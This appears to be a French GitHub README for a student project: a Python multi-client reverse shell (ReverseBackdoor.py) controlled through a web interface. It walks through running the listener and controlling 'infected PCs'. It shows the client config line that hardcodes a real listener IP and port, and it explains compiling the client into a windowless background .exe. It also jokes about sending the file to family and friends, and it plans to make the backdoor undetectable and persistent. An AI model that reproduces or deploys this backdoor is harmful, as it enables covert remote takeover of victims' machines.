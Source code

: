 # Reverse-shell en interface Web

_Dans le cadre du projet 2020 UF infrastucture & Système d'information, nous avons réalisé un reverse shell en python avec un contrôle depuis une interface web, ainsi qu'un déploiement à l'aide de vagrant._

_Réalisé par CEBERIO Pierre **(@PierreYnov)**  [PierreYnov](https://github.com/PierreYnov) et USEREAU Lucas **(@Saluc00)** [Saluc](https://github.com/Saluc00) ._

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img1.png)

## Sommaire

- [Documentation d'installation](##-documentation-dinstallation)
  - [0. Prérequis](###0-prérequis)
  - [I. Git clone](###i-git-clone)
  - [II. Vagrant](###ii-vagrant)
- [Documentation d'utilisation](##-documentation-dutilisation)
  - [Serveur](###-serveur)
  - [Client](###-client)
- [Pour aller plus loin](##-pour-aller-plus-loin)
- [Crédits](##-crédits)

## Documentation d'installation

_Manuel d'installation étape par étape du reverse shell_

### 0. Prérequis

Le projet demande trois prérequis, avoir **vagrant**, **virtualbox** et le module python **pyinstaller** d'installé sur son PC.

Disponible [ici](https://www.vagrantup.com/downloads.html) !

### I. Git clone

Cloner le repository avec la commande: `git clone https://github.com/Saluc00/UF-Infra-B2.git`.

### II. Vagrant

Suivant le port que vous souhaitez utiliser, changez le port dans le _VagrantFile_ du côté HOST !! **Important** !!

Placez-vous dans le fichier vagrant et faites la commande: `vagrant up`.

_Attendre la fin de l'initialisation du VagrantFile.._

Une fois l'installation du _VagrantFile_ ok, faites le commande `vagrant ssh`.

Pour lancer le serveur python, il se trouve dans `UF-Infra-B2\Multi-Client-Reverse-Shell`.

La commande pour UP le serveur: `python3 Listener.py`

## Documentation d'utilisation

### Serveur

Vous devez tout d'abord ouvrir un port sur votre serveur afin d'écouter dessus et permettre aux pc infectés de s'y connecter. La manière d'ouvrir un port diffère en fonction de votre OS, vous pouvez vous référer à ces liens pour Windows, OSX et Ubuntu :

- https://fr.wikihow.com/ouvrir-des-ports

- https://guide.ubuntu-fr.org/server/firewall.html

Une fois le port que vous avez choisi est ouvert, rendez vous dans le fichier Listener.py et allez à la ligne 341 remplacer le port 9999 par le votre.

Le serveur est maintenant prêt, il suffit de lancer l'écoute et attendre que les clients se connectent :

```
python3 Listener.py
```

La commande `list` permet de lister les clients actuellement connectés, il suffit ensuite de sélectionner le pc sur lequel on veut intervenir avec la commande `select` suivi de l'index du pc.

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img2.png)

Pour quitter le shell sur le pc où l'on est, il suffit d'écrire `quit`.

Pour quitter l'interface Web du Reverse-Shell, il suffit de taper `exit`.

La commande `help` vous donnera les informations détaillés sur chaque commande.

La commande `upload` permet d'envoyer un fichier qu'on a sur le serveur, sur le client ( la commande `download` est encore en réalisation, elle fera l'inverse).

### Client

Afin d'être fonctionnel, il est nécessaire côté client (ReverseBackdoor.py) d'adresser l'IP de votre hôte (qui vous permettra de contrôler les ordinateurs ) à la ligne 164 (listenerIP) ainsi que de donner le port sur lequel écoute votre hôte à la ligne 165 (listenerPort).

_à la ligne 164 et 165:_

```python
  listenerIP = "77.202.221.174" # Ici mettre votre IP
  listenerPort = 9999 # Ici le port que vous avez mis en host dans le fichier vagrant
```

Pour compiler le ReverseBackdoor.py, vous aurez besoin de pyinstaller :

```
pip install pyinstaller
```

Tapez ensuite :

```
pyinstaller --onefile --windowed ReverseBackdoor.py
```

afin d'avoir le fichier ReverseBackdoor.exe en un seul fichier (sans librairie) et qui n'affiche aucune console quand vous l'exécutez mais qui reste en background.

Puis envoyer le fichier .exe créé à toutes votre famille et amis !

## Pour aller plus loin

- Régler les problèmes d'encodage
- Fix la commande `download`
- Avoir l'interface Web SSH sur notre serveur ( dépendance actuel de https://app.shellngn.com/ )
- Automatisation des tâches sur tout les ordinateurs qu'on contrôle ( pas en interactif à la mano, maybe tmux ? )
- FUD la backdoorReverseShell, cacher le processus et le rendre permanent.
- To be continued ...

## Crédits

- Shell python utilisé: https://github.com/mustafadalga/Multi-Client-Reverse-Shell
- Machine virtuelle utilisé sur le serveur d'AFN: https://awayfrom.network/
- Vagrant: https://www.vagrantup.com/
- VirtualBox: https://www.virtualbox.org/
- Python: https://www.python.org/
